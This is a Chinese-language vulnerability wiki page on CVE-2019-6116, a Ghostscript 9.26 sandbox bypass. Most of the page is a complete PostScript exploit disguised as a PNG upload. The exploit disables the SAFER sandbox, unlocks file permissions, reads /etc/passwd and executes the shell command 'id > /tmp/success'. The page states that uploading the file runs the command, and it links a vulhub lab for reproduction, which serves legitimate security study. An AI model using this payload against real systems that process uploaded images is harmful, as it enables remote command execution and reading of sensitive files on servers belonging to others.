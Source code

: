 （CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞
=====================================================

一、漏洞简介
------------

Ghostscript
9.26版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

二、漏洞影响
------------

Ghostscript 9.26版本

三、复现过程
------------

**poc.png**

    %!PS
    % extract .actual_pdfpaintproc operator from pdfdict
    /.actual_pdfpaintproc pdfdict /.actual_pdfpaintproc get def

    /exploit {
        (Stage 11: Exploitation...)=

        /forceput exch def

        systemdict /SAFER false forceput
        userparams /LockFilePermissions false forceput
        systemdict /userparams get /PermitFileControl [(*)] forceput
        systemdict /userparams get /PermitFileWriting [(*)] forceput
        systemdict /userparams get /PermitFileReading [(*)] forceput

        % update
        save restore

        % All done.
        stop
    } def

    errordict /typecheck {
        /typecount typecount 1 add def
        (Stage 10: /typecheck #)=only typecount ==

        % The first error will be the .knownget, which we handle and setup the
        % stack. The second error will be the ifelse (missing boolean), and then we
        % dump the operands.
        typecount 1 eq { null } if
        typecount 2 eq { pop 7 get exploit } if
        typecount 3 eq { (unexpected)= quit }  if
    } put

    % The pseudo-operator .actual_pdfpaintproc from pdf_draw.ps pushes some
    % executable arrays onto the operand stack that contain .forceput, but are not
    % marked as executeonly or pseudo-operators.
    %
    % The routine was attempting to pass them to ifelse, but we can cause that to
    % fail because when the routine was declared, it used `bind` but many of the
    % names it uses are not operators and so are just looked up in the dictstack.
    %
    % This means we can push a dict onto the dictstack and control how the routine
    % works.
    <<
        /typecount      0
        /PDFfile        { (Stage 0: PDFfile)= currentfile }
        /q              { (Stage 1: q)= } % no-op
        /oget           { (Stage 3: oget)= pop pop 0 } % clear stack
        /pdfemptycount  { (Stage 4: pdfemptycount)= } % no-op
        /gput           { (Stage 5: gput)= }  % no-op
        /resolvestream  { (Stage 6: resolvestream)= } % no-op
        /pdfopdict      { (Stage 7: pdfopdict)= } % no-op
        /.pdfruncontext { (Stage 8: .pdfruncontext)= 0 1 mark } % satisfy counttomark and index
        /pdfdict        { (Stage 9: pdfdict)=
            % cause a /typecheck error we handle above
            true
        }
    >> begin <<>> <<>> { .actual_pdfpaintproc } stopped pop

    (Should now have complete control over ghostscript, attempting to read /etc/passwd...)=

    % Demonstrate reading a file we shouldnt have access to.
    (/etc/passwd) (r) file dup 64 string readline pop == closefile

    (Attempting to execute a shell command...)= flush

    % run command
    (%pipe%id > /tmp/success) (w) file closefile

    (All done.)=

    quit

上传这个poc文件，即可执行`id > /tmp/success`：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-6116)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2019-6116/
